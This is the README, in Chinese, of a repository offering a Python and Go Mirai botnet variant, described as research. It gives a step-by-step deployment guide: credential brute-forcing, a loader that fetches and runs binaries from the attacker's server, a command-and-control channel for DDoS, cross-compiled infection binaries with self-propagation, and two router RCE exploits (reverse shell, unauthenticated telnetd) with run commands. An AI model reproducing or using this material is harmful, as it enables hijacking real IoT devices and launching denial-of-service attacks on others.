










# Mirai python variant

這項Mirai工作是基於研究與學習用途，依照Mirai功能所實現出來的，該程式碼不具有破壞裝置性。

## About Code

其中有幾項功能是需要設定的，在後續也會相繼說明

在開始操作之前，需要先進行設定```ip_config.ini```檔，將```RelayIP```設定為本機端IP位置，```Target```僅用來測試單一目標裝置用，如無則免設定

首先，我們實現的Mirai主要提供```Scanner.py```、```Loader.py```、```CNC.py``` 、```bin_server.py``` 和 ```relay.py```

* ```Scanner.py```內部中，主要提供生成IP以及掃瞄是否有開啟22、23 port，並且會用內建的帳號密碼清單組進行brute force，其中```main```的位置呼叫```Scanner(choose,ip)```函數調用可以設定的arg，如果choose==1時則會進行全域掃描將192.168.0.1~192.168.254.255都進行掃描並record，如果將choose設定為2時則需要帶入ip位置針對該ip位置進行掃描

* ```Loader.py```，可以將掃描器中獲得到的IP以及帳號密碼進行帶入，帶入後會依照SSH或是Telnet進行登入，並下達指令進行感染下載完成移植動作。
在```doSSHLogin(ip, port, user, pass_)```、```doTelnetLogin(ip, port, user, pass_)```兩個函數中都是帶入ip、port、username、password進行存取，如果port為22請使用doSSHLogin，若port 23則使用doTelnetLogin

    在電腦上的操作Scanner與Loader功能是分開執行，可以先從Scanner執行中獲得帳號密碼與IP，在到Loader中帶入相關帳號密碼並執行進行攻擊。

* ```Relay.py```，儲存資料用，在此扮演DB角色，預設啟用```31337 port```，在Scanner掃描過程中，當有發現成功登入存取時，就會嘗試將資料送往Relay中接收，Relay接收如果過去並未捕獲該資料則會儲存到csdb.txt中，並回應Scanner儲存成功。反之，如果曾經接收過，則會回報Scanner儲存失敗，該資料存在於系統中。其中```__MAXCONN__```可以設定最大連接數。

* ```bin_server.py```，用來啟動提供device端的程式碼，提供簡易HTTP File Server服務，預設會抓取```./ELF_file/```路徑底下來提供檔案，預設啟用```31338 port``` 。

* ```CNC.py```，Mirai原始殭屍網路架構中，透過Command and Control的方式下達命令操縱裝置發起攻擊。實現過程中透過Socket的方式來完成操縱方式，因為Socket具有阻塞性質，並且同時也能保持TCP連接，透過兩個Thread的方式，將第一個Thread作為連接新裝置使用，當感染到新裝置後，該Thread會顯示當前連接裝置位置，並且持續存取程式public的變數，如果出現非空字串，則會將該變數中的字串向已連接的裝置發送。而另一個Thread作為發送指令，此目的是為了執行過程中，能讓程式能夠同時連接與輸入指令控制，因此執行過程中可以輸入指令，當輸入指令後，會將指令儲存到public變數中，使第一個Thread變數能夠接收該public變數存取送出。在CNC.py為CNC server端，僅用來發送指令，在device端的CNC client則會依照對應指令觸發對應動作。

接著，```ELF_file```、```device_side```則是感染裝置的原始碼以及檔案

* ```device_side```資料夾中，又包含了CNC、Loader、Scanner三大功能，這些功能都是為了加速感染與操縱，其中因為裝置上與攻擊者電腦不同，攻擊者電腦因為環境空間夠大資源較佳，因此可以利用python等語言執行，與裝置端不同，以IoT裝置為例，通常IoT裝置所使用的晶片、記憶體、容量等各方面效能資源較差，沒辦法完整將攻擊者電腦的所有功能塞入到裝置中，並且考慮到架構上的不同，在感染前需先確定裝置的架構才能將對應架構感染到裝置上，因此在研究中採用Go語言開發裝置端的感染，先利用Go語言將功能完整實現後，再利用語言本身自帶的交叉編譯功能將程式碼編譯成多個不同架構的可執行檔(ELF file)，如此一來就能使裝置正常執行該程式碼，此外還需考慮到裝置本身自帶的Library與電腦不同，因此在ELF file還需設定為static的link方式，在後續也會逐一說明。
  
  在device_side資料夾中的各功能說明:

  * ```Scanner```，在資料夾中實現```scanner.go```，其功能與運作方式都與```Scanner.py```相同，唯一不同的是，當掃描到新裝置後，除了會回報給Relay中儲存，也會自動去呼叫```Loader```自動感染。此外，需要注意的是因為該程式碼會進行編譯成執行檔並安裝到裝置上，因此沒辦法像攻擊者電腦透過ip_config.ini的方式引入參數，在使用過程中需要手動設定```scanner.go```中的```__RELAY_H__```變數，將該變數設定為攻擊者電腦的IP位置(與ip_config.ini中的relay IP相同)即可。
  
    在```main()```中，由於避免裝置無差別感染所有裝置導致資源耗盡，因此在此可以設定裝置感染是否以192.168.0.0/16的方式掃描所有IP，或是針對單一IP進行掃描，此步驟可自行設定。

  * ```Loader```，在資料夾中實現```loader.go```，其功能與運作方式都與```loader.py```相同，但由於```Scanner.go```在掃描到後會自動感染，因此在```loader.go```的呼叫方式是直接將參數設定在執行後方，例如 : ``` ./loader admin password 192.168.1.181 23 ```，執行參數分別為[ 執行檔 帳號 密碼 IP位置 利用port號 ]，這樣的原因在於，當攻擊者利用電腦感染，電腦可以看到感染的過程與所有資訊，在攻擊者電腦上執行也可以直接修改程式碼，但是裝置間在感染並沒辦法得到裝置感染過程，其執行過程都是在裝置背景系統中執行，並且裝置中安裝的感染檔案為執行檔，沒辦法修改內部程式碼，藉此，為了方便測試與感染，因此在設計上直接採用執行帶入參數的方式進行。

  * ```CNC```，在此資料夾中實現CNC client功能，程式碼中實現已layer 7的DDoS攻擊，當執行階段的時候會與CNC server保持連接，並等候CNC server發送指令，當CNC server傳送指令並接收到時，會解析指令是否為ddos開頭，當指令為ddos開頭並且參數為IP位置，則會建立一個ddos攻擊並持續60s，這些攻擊與參數可自行設定。

  其中，因為要讓該程式碼進行編譯，在資料夾中的```build.sh```是用來自動編譯這些檔案成不同架構，其中架構如下:
  ```
  linux/386
  linux/amd64
  linux/arm
  linux/arm64
  linux/loong64
  linux/mips
  linux/mips64
  linux/mips64le
  linux/mipsle
  linux/ppc64
  linux/ppc64le
  linux/riscv64
  ```
  最後會將編譯完的可執行檔存放到```ELF_file```資料夾中。

*在研究並實現的過程中，由於需要重複測試以及利用，因此並未實現Mirai原始碼中的停止watch dog、destroy process、Kill_init()等相關功能，以便後續裝置能夠正常運作。*

## Build & Env

**Attacker:**

| Software | Version            |
| -------- | ------------------ |
| OS       | Ubuntu 20.04.5 LTS |
| Python3  | Python 3.8.10      |
| GoLang   | Go 1.20.2          |

**Target Device:**

|     Name       |      system    |  Chip Architecture |
|    --------    | -------------- |   --------------   |
| Asus RT-AX88U  |      linux     |   AARCH64 (ARM64)  |


Install GoLang (on Ubuntu)

```
sudo apt install golang-go
```

## Usage

進行攻擊前，請先確定網路與環境是否安全。

首先，需要啟動一些功能與設定一些參數

開啟ip_config.ini後，找到relayIP，將後面的IP位置設定為ifconfig所查詢到的IP，在此範例中將網路連到同一Router底下，並查詢IP位置為192.168.6.97，因此設定如下 (實際情況依照自身電腦設定)

```
{
  "RelayIP": "192.168.6.97",   
  "targetIP": "192.168.1.167"   # Not Use
}
```
儲存

接著，需要啟動```Relay.py```、```CNC.py```和```bin_server.py```，開啟不同terminal後

```
python3 relay.py
```
你將會看到
```
[17:14:30] [INFO] Starting relay on port: 31337
[17:14:30] [WARNING] Configuration set to allow 100 connections..
[17:14:30] [INFO] Relay is online!
```
表示該DB已準備好

到另一個terminal中
```
python3 CNC.py
```
會出現，表示CNC server啟動並待命

```
C&C Server is listening on 192.168.6.97:12348
```

最後啟動提供bin file的Server，

```
python3 bin_server.py
```
如果出現以下，表示執行成功。

```
[17:19:15] [INFO] Webserver started at:192.168.6.97:3133
```
---
如果以上執行過程中出現相似錯誤
```
Exception in thread Thread-1:
Traceback (most recent call last):
  File "/usr/lib/python3.8/threading.py", line 932, in _bootstrap_inner
Enter something command to device :
    self.run()
  File "/usr/lib/python3.8/threading.py", line 870, in run
    self._target(*self._args, **self._kwargs)
  File "CNC.py", line 34, in start_server
    server_socket.bind((host, port))
OSError: [Errno 99] Cannot assign requested address
```
表示IP給定錯誤，需要檢查主機IP是否正確，能夠讓外部與主機通訊。

---

接著，啟動完成後，需要編譯感染檔案，進到```device_side```資料夾中

首先設定```scanner.go```，找到```__RELAY_H__```變數，並且設定成攻擊者電腦的IP，以這個範例示意至```line 77```，設定如下

```
	__RELAY_H__   = "192.168.6.97"
```
並且到 ```main()``` 中，選擇設定感染方式，可以自行移除註解，以下範例。

```
func main() {
	fmt.Println("[Scanner] Scanner process started ..")
	isSSHOpen("192.168.1.163")   // 掃描192.168.1.163的SSH 
	
	//isTelnetOpen("192.168.1.163","23")  
        // 掃描192.168.1.163的Telnet，考慮到Telnet可能有23、2323 port 可以設定
	
	//Scanner()    // 掃描全域

	//if validateC2("192.168.6.97","31337"){   // 測試儲存資料到relay中
	//	c2crd("test","test","192.168.6.97","31337")
	//} //test connect relay

	time.Sleep(20*time.Second)  // wait program
}
```
接著，設定```loader.go```，同樣找到```__RELAY_H__```變數，並且也同樣設定攻擊者IP，如範例在```line 14```中設定

```
__RELAY_H__   = "192.168.6.97"
```
最後，設定CNC client，在cnc.go中在```line 79```中設定攻擊者IP

```
host := "192.168.6.97"
```

至此，就可以設定完device感染的操作，再來就是進行編譯

在```./device_side/build.sh```已寫好Go語言[交叉編譯](https://zh.wikipedia.org/zh-tw/%E4%BA%A4%E5%8F%89%E7%B7%A8%E8%AD%AF%E5%99%A8)多個指令的script，因此直接執行即可
```
chmod +x build.sh
sh ./build.sh
```
or
```
chmod +x build.sh
./build.sh
```
此時編譯就會開始，編譯完成的檔案將會存放於```../ELF_file/bin/```路徑底下

然後，來到```ELF_file/bin/```資料夾中，找到```curl_download_exec.sh```跟```wget_download_exec.sh```，這兩個檔案是loader加載時，要移植檔案到系統上所使用的簡易script，會進行判斷裝置系統架構並決定要從攻擊者上的bin_server中下載對應架構的ELF file。

因此需要對裡面的IP進行設定

```
sudo nano curl_download_exec.sh
```
找到設定ip的地方，填入攻擊者IP，並且由於bin server採用31338 port，因此設定如下
```
ip = "192.168.6.97:31338"    // set your bin server IP:Port
```
```wget_download_exec.sh```檔案亦是相同
```
sudo nano curl_download_exec.sh
```
同樣找到ip處並進行設定
```
ip = "192.168.6.97:31338"  // set your bin server IP:Port
```

最後，要注意的是，因為感染通常都是自動的，IoT裝置會自動執行程式碼並且於背景執行

所以在剛剛的```wget_download_exec.sh```與```curl_download_exec.sh```，的下方可以找到如下程式碼

```
chmod +x scanner
chmod +x loader
chmod +x cnc
#./scanner > /dev/null 2>&1 &
#./cnc > /dev/null 2>&1 &
```

如果要讓程式能夠自動的感染到下一個裝置上則將#註解取消，如果只是需要觀察檔案是否存在於裝置中，則照預設的方式即可

操作完指令後，即可發起攻擊

在此範例中我們以Asus RT-AX88U作為靶機IoT裝置測試

可以先選擇scanner要使用什麼mode進行掃描，在```scanner.py```的```main()```中，假設要利用SSH的方式進行scanner，並且我們在已知裝置為192.168.6.163的情況，我們將Scanner的參數帶入(2,"192.168.6.163")，程式碼如下

```
if __name__ == '__main__':
    print("[Scanner] Scanner process started ..")
    #validateC2() # Test to connect remote DB
    Scanner(2,"192.168.6.163")
    #is_telent_open("192.168.0.1")
```
接著執行
```
python3 scanner.py
```
如下圖



可以看到Scanner針對該IP位置搜尋，並且成功在SSH中暴力解出帳號為admin密碼為password，並且將該資訊傳遞給relay接收新增

在前述有說到，我們在攻擊者電腦上並沒有將Scanner與Loader整合自動感染，這是為了方便獲取各自的結果，因此如果要進行感染，需要在手動將資訊帶入到Loader.py中執行。

在此，可以到loader.py中找到```__main__```，其中，因為Scanner得知是使用SSH並且利用```admin:password```組合登入，因此修改成如下。帶入相關參數進行執行。

```
if __name__ == '__main__':
    #Host_IP, targerIP = read_config_ip()
    #ForceDB(sys.argv[2])
    #doTelnetLogin("192.168.6.121", "23", "root", "password")
    #doTelnetLogin("192.168.0.1","23","","")
    doSSHLogin("192.168.6.163","22","admin","password")  # Use this
    pass
```

並且執行

```
python3 loader.py
```

如下結果，右邊可以看到被感染後，裝置正向bin_server索取檔案下載，並且可以到裝置中看到被感染後結果。



在上述有提到，如果```wget_download_exec.sh```與```curl_download_exec.sh```下方程式碼移除註解則會自動再接續執行scanner以及執行CNC功能。

在此操作，僅展示手動執行以便查看感染狀態。

在IoT device端因為被成功感染後，我們手動執行CNC功能。

使用SSH的方式登入裝置並查看檔案是否成功被存放於裝置內部。

```
ssh admin@192.168.6.163
```
並且查看與執行CNC，與CNC server進行連接

```
ls
./cnc
```

在CNC server端輸入指令，在範例中我們嘗試輸入test字串給CNC client進行接收。若CNC client可以看到字串表示連接成功，並保持TCP連接狀態。

使用指令ddos發動攻擊

```
ddos http://192.168.6.97/
```

我們透過發送指令給IoT device上，並且攻擊Attacker主機

操作結果如下圖



再回到系統上使用指令```htop```即可查看當前資源使用率



可以看到在未啟動任何服務的狀態時，資源被占用近30~40%

表示資源較弱的IoT裝置也能夠造成一定的傷害。


在device端手動操作感染到下一裝置上，同樣以RT-AX88U為例，並且找來另一式裝置

首先使用Telnet或SSH的方式登入令一式裝置中(該裝置IP為192.168.6.2)，並且查看裝置狀態


接著回到RT-AX88U裝置中，查看檔案後，並使用loader，並且在已知帳號為admin密碼為password的狀況將參數帶入到執行指令後方，並選擇使用23 port的方式感染，如下

```
./loader admin password 192.168.6.2 23
```



最後回到另一式裝置中即可看到裝置已被感染且移植相關執行檔。

## RCE exploit

本研究中同樣利用RCE結合進行感染，在此採用兩個RCE漏洞利用，程式碼分別為RCE_exploit.py、RCE_exploit2.py。

- CVE-2021-4045
  
  我們利用該漏洞實現出```RCE_exploit2.py```。
  
  在這項漏洞，由於在http的payload參數中並未過濾特殊字元，以至於攻擊者可以先進行監聽，並且在參數中夾帶reverse shell，使其觸發remote shell。

  由於我們可以獲得remote shell，因此我們直接在獲得interactive階段，直接加入loader中的功能，使其在觸發漏洞時直接進行感染動作。

  程式中，我們使用兩個執行緒的方式，首先在第一個執行緒中會先調用nc的方式進行監聽，等待連接狀態，接著會去執行令一個執行緒並發送request payload，藉此觸發裝置的漏洞，當裝置接收到與解析後會主動與第一個執行緒進行連接，當連接成功後會進行loader動作感染，逐一下指令將病毒移植到裝置中。

  **when using**
    
    需要注意程式碼的```line 16 ~ 18```，需要設定攻擊者自身的IP位置以及目標裝置的IP位置，
    ```
    attacker = "192.168.50.145"   # setting your computer's IP address
    port_rev = 9999
    victim = "192.168.50.118"    # setting Device IP address
    ```
    
    輸入完成後直接執行

    ```
    python3 RCE_exploit2.py
    ```
    
    執行時，同樣需要啟動bin_server.py服務，避免無法找到感染執行檔案

    
    
    接著再利用CVE-2021-4045.py程式碼得到interactive使用```ls```指令查看是否存在

    

- CVE-2022-30075

  我們利用該漏洞實現出```RCE_exploit.py```。

  在此項漏洞中指出，透過WEB介面中匯入備份檔案因為驗證不當導致一些指令可被執行。
  
  在研究過程中我們發現，考慮到WEB的備份介面，攻擊者需要先利用已知的帳號密碼進行加密演算法或是透過暴力破解將每組帳號密碼進行加密嘗試登入，在成功登入後，可以透過請求的方式將備份檔案下載並且透過解密與解壓縮的方式將備份資訊拆解，其中，拆分過程可以獲得```md5_sum```、```ori-backup-ap-config.xml```、```ori-backup-certificate.xml```、```ori-backup-router-config.xml```、```ori-backup-user-config.xml```這些檔案，其中在```ori-backup-user-config.xml```中記載許多敏感資訊，包括帳號密碼以及裝置資訊設定檔案，由於備份資訊是裝置透過xml解析對應標籤並還原系統狀態，該漏洞觸發的位置位於xml中的兩處，其中一處是在DDNS設定上，通常位於裝置系統路徑的/etc/config/ddns，在[OpenWrt的官網](https://openwrt.org/docs/guide-user/services/ddns/client#detecting_wan_ip_with_scrip)中指出，DDNS提供options設定，可以允許使用者自定義service provider，在備份檔案中也能夠找到這樣的DDNS設定資訊，可以透過修改options參數，將ip_source與ip_script修改為特別指定的script，當裝置主動啟用ddns服務並且無法查詢相關ddns domain時會自動觸發該script藉此來達成漏洞觸發。另一處則是位於裝置的實體按鈕中，如下片段xml內容
  
  ```
  <button name="led_switch">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/lib/led_switch</handler>
  </button>
  ```
  可以發現到，該按鈕的設定也被寫入於備份檔案中，並且該處發動作會呼叫系統中的/lib/led_switch檔案，使裝置的按鈕進行關閉，攻擊者也同樣可以修改handler的參數，當使用者無意按下實體led按鈕時則成功觸發該漏洞。

  **when using**

  在當前程式碼中兩種方式都有實現出來，但由於考慮到裝置不能保證何時會觸發ddns的script，因此預設是使用led_switch的方式觸發

  使用方式如下

  ```
  python3 RCE_exploit.py -t <IP> <yourpassword> -c '<command>'
  ```
  
  在此提供了在已知帳號密碼的狀況所進行攻擊的情況，攻擊者將IP、密碼與指令帶入執行參數中執行。

  鑒於我們分析裝置韌體，發現該系統中存在有telnet的檔案於系統中，並且在/bin/login.sh中可以直接繞過權限，因此在command處使用```'/usr/sbin/telnetd -l /bin/login.sh'```，令Telnet鏈結到login.sh藉此來達成無須帳號密碼的方式啟動Telnet。

  執行結果如下圖，在觸發前利用nmap查詢裝置port狀態，並且執行程式後手動按下裝置上的led按鈕，成功觸發telnet功能，並且登入telnet無須帳號密碼即可存取

  

  接著，由於觸發了telnet服務，可以直接接續利用loader.py功能令使裝置被感染

  

  最後，再次使用Telnet登入裝置後查看感染狀態

  

  可以發現檔案皆已存在於裝置系統中。

  如果要使用ddns script則找到```RCE_exploit.py```註解的method 1 取消，並且將method 2註解起來，藉此就可以寫入第一種觸發方式。